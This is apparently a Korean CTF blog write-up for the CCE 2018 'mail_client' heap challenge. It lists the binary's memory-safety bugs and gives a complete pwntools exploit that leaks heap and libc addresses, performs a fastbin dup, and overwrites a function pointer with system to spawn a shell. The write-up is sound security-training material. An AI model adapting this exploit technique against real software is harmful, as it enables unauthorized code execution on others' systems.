 ```yaml
---
title: CCE CTF 2018 - red5_1aadde7c3b mail_client
date: 2018-10-04 00:10:53
categories:
- Heap Exploit
- CTF writeup
tags:
- Fastbin Dup attack
---
```


# 

```c
FMAIL version 1.0 uid=1000 gid=1000
AUTH: Plaintext
Compiler: GCC
Library: Glibc
```

..정말 취약점은 쉽고 익스가 힘들었던 문제



일단 눈에 보이는 이상한 점은

1. mail의 body에 40개 만큼 넣으면 file을 malloc 한 주소 leak이 가능하다.
2. file 할당 시 size 검사를 안한다.
3. free하는 mail의 index 검사를 안한다.
4. logout 후 다시 register 할 때 malloc을 안한다. (free 영역에 계속 쓸 수 있음)
5. file 을 modify 할 때 구조체 안의 함수 포인터를 사용한다.



이상한 점은 정말 많은데 memset 때문에 익스할 때 번번히 막혔다..

archive 메뉴는 아직도 어떻게 쓰는 지 모르겠다..ㅋㅋㅋㅋㅋㅋㅋ 듣기로는 익스 방법은 진짜 가지각색이라고 함..

top chunk 덮어서 orange 처럼 free 한 다음 leak 하려고도 했는데 eof 가 떠서 못했다. 이건 아직도 왜그런지 모르겠음..



내가 쓴 구조체

```c
struct my
{
  char email[40];
  char pass[40];
};
```

```c
struct mail
{
  char to[20];
  char subject[20];
  char body[40];
  __int64 file_pointer;
  __int64 (__fastcall *FILE)(__int64, __int64);
};
```

```c
struct list
{
  mail *mail;
};
```



내가 한 방법은 1번을 이용해 heap 영역을 leak 하고 2번을 이용해 mmap으로 할당하게 해서 libc 주소를 구했다. 원래 libc leak을 이 방법이 아니라 딴 걸 생각 햇는데 이것 때문에 삽질엄청했다.

그리고 메뉴를 입력할때 19 bytes 만큼 받아서 메뉴 입력 한 뒤 원하는 주소를 넣을 수 있다. 여기에 원하는 chunk 영역을 넣고 3번을 이용해 내 맘대로 free 할 수 있다. ~~근데 memset 함..짜증..~~

하지만 4번이 있으므로 fastbin dup attack을 할 수 있다. 이걸 5번 함수 포인터 근처에 fake chunk를 넣고 할당 받은 뒤 overwrite 하면 쉘이 따인다. 짜잔

주의할 점은 함수 포인터 부르는게 지금 쓰는 mail 구조체라 여기에 넣어야 함. 그리고 one_shot 안되서 login mail부분에 "/bin/sh" 넣어서 system 함수 써야함(free 된 영역이라 0x50 malloc 하면 쓸 수 있다.)



```python
from pwn import *
from time import *

w = process("./mail_client")

def register(mail, pw):
	w.sendline('REG')
	w.sendline(mail)
	w.sendline(pw)

def login(mail, pw):
	w.sendline("LOGIN")
	w.sendline(mail)
	w.sendline(pw)

def logout():
	w.sendline("LOGOUT")

def send(to, subject, body, attach):
	w.sendline("SEND")
	w.sendline(to)
	w.sendline(subject)
	w.send(body)
	w.sendline(str(attach))

def recv():
	w.sendline("RECV")

def trash(idx):
	w.sendline("TRASH")
	w.sendline(str(idx))

def archive(idx):
	w.sendline("ARCHIVE")
	w.sendline(str(idx))

def att_file(size, content, mod):
	w.sendline(str(size))
	w.sendline(content)
	w.sendline(str(mod))

def leak():
	w.recvline()
	w.recvline()
	heap = w.recvline()[41:-2]
	return u64(heap.ljust(8,"\x00"))
	

register("wally0813@","wally0813")
login("wally0813@","wally0813")

# heap leak
send("wally0813","wally0813","w"*40,1)
att_file(0x50,"wally0813",2)

w.recv()
recv()
heap_base = leak()-0xe0
log.info("Heap_Base ::"+hex(heap_base))

# mmap
send("wally0813","wally0813","w"*40,1)
att_file(0xfffffff,"wally0813",2)

# libc leak
send("wally0813","wally0813","w"*40,1)
att_file(0x500,"wally0813",2)

recv()
w.recvuntil('[1]')
libc_base = (leak()& 0xffffffff000)+0x700010001000
log.info("Libc_base ::"+hex(libc_base))
system = libc_base + 0x45390

# fastbin dup attack in heap
w.sendline("TRASH".ljust(8,"\x00")+p64(heap_base+0x10))
w.sendline("11")

w.sendline("TRASH".ljust(8,"\x00")+p64(heap_base+0xe0))
w.sendline("11")

logout()

fake = heap_base+0x760

register(p64(fake),"wally0813")
login(p64(fake),"wally0813")

send("w","w",p64(0)*2+p64(0x60)+p64(heap_base+0x10)+p64(heap_base+0x10),1)

# overwrite function pointer
att_file(0x50,"/bin/sh\x00",1)
att_file(0x50,"1"*0x10+p64(system)*2,1)

w.interactive()

```

다 풀고 나니 생각보다 별거 아닌데 삽질을 엄청했다. 이상하게 요즘 푸는 문제 버퍼가 다 이상하다... ~~내가 이상하게 줬겠지..~~

